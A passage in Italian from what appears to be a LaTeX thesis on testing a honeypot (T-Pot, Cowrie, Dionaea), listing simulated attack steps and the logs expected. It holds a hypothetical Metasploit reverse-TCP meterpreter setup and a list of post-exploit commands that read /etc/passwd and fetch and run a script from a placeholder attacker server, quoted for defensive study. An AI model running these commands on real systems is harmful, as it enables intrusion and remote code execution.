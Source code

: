 \subsubsection{Fase 3: Tentativi di Exploit (Simulati)}
\label{subsubsec:fase3_test}
Se l'honeypot emula servizi vulnerabili (es. tramite Kippo, Dionaea dentro T-Pot), si possono usare strumenti come Metasploit per interagire.
\begin{lstlisting}[caption={Esempio di interazione con Metasploit (ipotetico)}, label=lst:metasploit_test]
# msfconsole
# > use exploit/multi/handler # O exploit specifici se l'honeypot li simula
# > set PAYLOAD linux/x86/meterpreter/reverse_tcp
# > set LHOST <attacker-ip>
# > set RHOST <honeypot-public-ip>
# > exploit
\end{lstlisting}
L'honeypot dovrebbe loggare questi tentativi.

\subsubsection{Fase 4: Interazione Post-Exploit (Simulata)}
\label{subsubsec:fase4_test}
Se si ottiene accesso a una shell simulata (es. Cowrie \cite{cowrie_devs_2024}), l'honeypot registrerà i comandi eseguiti.
\begin{lstlisting}[caption={Comandi comuni eseguiti in shell compromesse simulate}, label=lst:post_exploit_cmds]
uname -a
ls -la /
cat /etc/passwd
wget http://<attacker-server>/malware.sh -O /tmp/m.sh
chmod +x /tmp/m.sh
/tmp/m.sh
exit
\end{lstlisting}

\subsection{Risultati Ottenuti (Ipotetici)}
\label{subsec:risultati_test}

L'esperimento simulato dovrebbe generare i seguenti output nel sistema di monitoraggio:

\subsubsection{Log dell'Honeypot (es. T-Pot / CloudWatch Logs)}
\label{subsubsec:log_honeypot_test}
\begin{itemize}
    \item Log dettagliati delle connessioni in ingresso (IP sorgente, porta destinazione, timestamp).
    \item Credenziali usate nei tentativi di brute force (log di Cowrie, HonSSH).
    \item Payload di exploit tentati (log di Dionaea, Suricata).
    \item Comandi eseguiti nelle shell simulate (log di Cowrie).
    \item File scaricati dall'attaccante simulato (se supportato).
\end{itemize}

